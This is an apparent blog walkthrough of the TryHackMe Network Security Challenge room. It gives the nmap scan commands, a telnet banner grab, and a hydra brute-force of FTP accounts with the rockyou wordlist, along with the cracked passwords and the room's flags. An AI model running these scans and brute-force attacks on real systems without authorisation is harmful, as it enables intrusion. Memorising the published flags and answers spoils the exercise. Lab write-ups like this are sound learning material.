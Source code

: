 ```yaml
---
title: Network Secutiry Challenge
date: 2022-06-16 18:32:00 -0500
categories: [Lesson, Tutorial]
tags: [nmap, telnet, hydra, Enumeration, TryHackMe]
---
```


Practice the skills you have learned in the Network Security module.

[https://tryhackme.com/room/netsecchallenge](https://tryhackme.com/room/netsecchallenge)

* * *

## Task 1 - Introduction

Use this challenge to test your mastery of the skills you have acquired in the Network Security module. All the questions in this challenge can be solved using only ``nmap``, ``telnet``, and ``hydra``.

* * * 

## Task 2 - Challenge Questions 

##   Answer the questions below

**What is the highest port number being open less than 10,000?**

1. ``nmap -sC -sV -T 4 10.10.82.60 -p- -oN initial`` scan with nmap and save scan to "initial" for refrence.
2. There are 6 open ports but one is hidden, the last question is a clue?
3. Redoing nmap scan but with ``-sN`` and sudo
4. We can see port 8080

**There is an open port outside the common 1000 ports; it is above 10,000. What is it?**

- inital scan shows port 10021

**How many TCP ports are open?**

- We see 5 open TCP ports and 

**What is the flag hidden in the HTTP server header?**

1. ``telnet 10.10.82.60 80``
2. ``GET / HTTP/1.1``
3. ``host: telnet``
4. hit return a few times to get flag: THM{web_server_25352}

**What is the flag hidden in the SSH server header?**

1. We got this flag using our initial Nmap scan: THM{946219583339}

**We have an FTP server listening on a nonstandard port. What is the version of the FTP server?**

- initial scan shows "vsftpd 3.0.3"

**We learned two usernames using social engineering: eddie and quinn. What is the flag hidden in one of these two account files and accessible via FTP?**

1. add users eddit and quin to txt file
2. ``hydra -t 16 -L users.txt -P /usr/share/wordlists/rockyou.txt ftp://10.10.82.60 -s 10021`` specifying port because not common
3. user eddie pass jordan - user quinn pass andrea
4. ``ftp quinn@10.10.82.60 -P 10021``
5. ``get ftp_flag.txt``
6. ``exit``
7. ``cat ftp_flag.txt`` THM{321452667098}

**Browsing to http://MACHINE_IP:8080 displays a small challenge that will give you a flag once you solve it. What is the flag?**

- we get the flag from running ``nmap -sN`` sening null bytes THM{f7443f99} 

* * * 